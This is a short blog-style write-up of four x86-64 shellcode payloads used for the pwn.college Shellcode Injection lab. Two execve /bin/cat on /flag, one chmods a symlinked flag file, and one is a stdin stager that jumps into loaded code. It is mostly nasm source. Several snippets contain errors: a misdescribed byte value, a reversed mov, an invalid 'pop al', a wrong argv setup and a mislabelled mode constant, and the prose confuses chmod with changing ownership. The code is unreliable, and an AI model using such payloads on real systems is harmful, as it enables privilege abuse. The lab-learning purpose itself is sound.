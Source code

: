 # The 4 Types of Shellcode I Used For pwn.college #

I recently completed the pwn.college Shellcode Injection module. I was never
really interested in actually learning how to shellcode because I thought I
could just look up. Since this is the first module, I ended up giving it chance
and really enjoyed the problems.

![I finished the module!!](https://i.imgur.com/iHF8get.png)

The 4 Types of Shellcode I used for the challenges were:
1. Pushing strings to the stack, then execve
2. Declaring strings in the shellcode, then execve
3. Using `chmod` to change the flag permissions
4. Using a loader to stage the actual shellcode

These were all assembled in `nasm`. My command looked something like \
```
nasm -f bin exploit.asm
```
The standard way taught in tutorials is to assemble it into an ELF file and then
take out the .text section. The `-f` flag just outputs a flat binary.

These are PoCs and must be substantially modified to actually solve later levels.

### Pushing strings to the stack

```asm
BITS 64
 
_start:
 xor rsi, rsi
 push rsi ; /flag terminator
 mov rsi, 0x67616c662f ; the chars of '/flag' represented as one integer
 push rsi
 mov rsi, rsp ; rsi = &"/flag"
 
 xor rdi, rdi
 push rdi ; /bin/cat terminator
 mov rdi, 0x7461632F6E69622F ; '/bin/cat'
 push rdi
 mov rdi, rsp ; rsp = &"/bin/cat"
 
 xor rdx, rdx
 
 push rdx ; arguments array terminator
 push rsi ; push &"/flag"
 push rdi ; push &"/bin/cat"
 mov rsi, rsp ; rsi = [&"/bin/cat", &"/flag"]
 
 mov rax, 59
 syscall
```

This is the one I started out with. I thought it was cooler than just declaring
bytes. I couldn't get `/bin/sh` to work so I just used `/bin/cat` instead. This
one takes up the most space out of all the shellcode we are reviewing
today.

### Declaring strings in the shellcode

```asm
BITS 64
 
_start:
 mov edi, bin_str
 mov esi, bin_str
 xor rdx, rdx

 push 59
 pop al
 syscall

 bin_str: db "/bin/cat", 0
 flag_str: db "/flag", 0
```

This version is much easier to understand and a little smaller.

### `chmod`ing the Flag

```asm
BITS 64
 
_start:
 push 0x59 ; 'f' 
 mov rsp, rdi ; rdi = &"f"
 mov rsi, 4 ; S_ISUID   

 mov rax, 0x5a ; chmod syscall
 syscall
```

Now we are getting super small. This shellcode requires a little preparation.
You have to create a symlink to the flag in the local directory named `f`. The
syscall changes the ownership of the symlink (which refers to the flag) to the 
user. The symlink does not have to named `f`.

### Loader from stdin

```asm
BITS 64

_start:
 mov rdi, 0 ; fd = 0 (stdin)
 mov rsi, (rwx buffer) ; buf
 mov rdx, 0x100 ; count = 0x100

 mov rax, 0
 syscall
 jmp rsi
```

This can be further minimized (exercise for the reader). One technique for
futher optimization is looking at what is in your registers at the time of
execution. Maybe some registers already have a zero. Maybe you can use `eax`
instead of `rax` to avoid the `REX` prefix.
